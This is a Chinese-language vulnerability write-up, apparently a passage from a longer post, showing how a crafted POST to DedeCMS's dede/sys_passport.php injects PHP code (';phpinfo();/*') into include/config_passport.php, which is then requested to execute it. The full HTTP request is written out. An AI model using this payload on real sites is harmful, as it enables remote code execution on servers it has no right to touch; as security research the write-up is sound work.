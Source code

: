 ![](https://gitee.com/fuli009/images/raw/master/public/20230616222213.png)

回头看配置文件

![](https://gitee.com/fuli009/images/raw/master/public/20230616222214.png)

数据库中并未写入

![](https://gitee.com/fuli009/images/raw/master/public/20230616222215.png)

比较有意思的基本上上所有的配置文件在做修改的时候都被转义了，导致无法RCE。既fwrite直接写入配置文件

![](https://gitee.com/fuli009/images/raw/master/public/20230616222216.png)

继续从配置文件向上查找，在路径

> dede/sys_passport.php

构造payload

    
    
    POST /uploads/dede/sys_passport.php HTTP/1.1  
    Host: dedecms.org:8016  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 172  
    Origin: http://dedecms.org:8016  
    Connection: close  
    Referer: http://dedecms.org:8016/uploads/dede/sys_passport.php?1678952050  
    Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2m5nqo8dsir04s541ab9c3f9i4; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=27d26bbe70ce4635; DedeLoginTime=1678950737; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=4a8556e201285aac; _csrf_name_5f9f6663=e8240231360cdb3477e421ac5afe613b; _csrf_name_5f9f66631BH21ANI1AGD297L1FF21LN02BGE1DNG=a77e938eaf09a438; ENV_GOBACK_URL=%2Fuploads%2Fdede%2Flog_list.php  
    Upgrade-Insecure-Requests: 1  
      
    dopost=save&edit___cfg_pp_need=Y&edit___cfg_pp_encode=TgTSa7141E&edit___cfg_pp_login=s&edit___cfg_pp_exit=s\&edit___cfg_pp_reg=';phpinfo();/*&imageField.x=39&imageField.y=9

![](https://gitee.com/fuli009/images/raw/master/public/20230616222217.png)

查看配置文件`config_passport.php`

![](https://gitee.com/fuli009/images/raw/master/public/20230616222218.png)

这里因为文件包含的文件为`config.php`,向上查找，配置文件路径为

> include/config_passport.php

请求

> http://dedecms.org:8016/uploads/include/config_passport.php
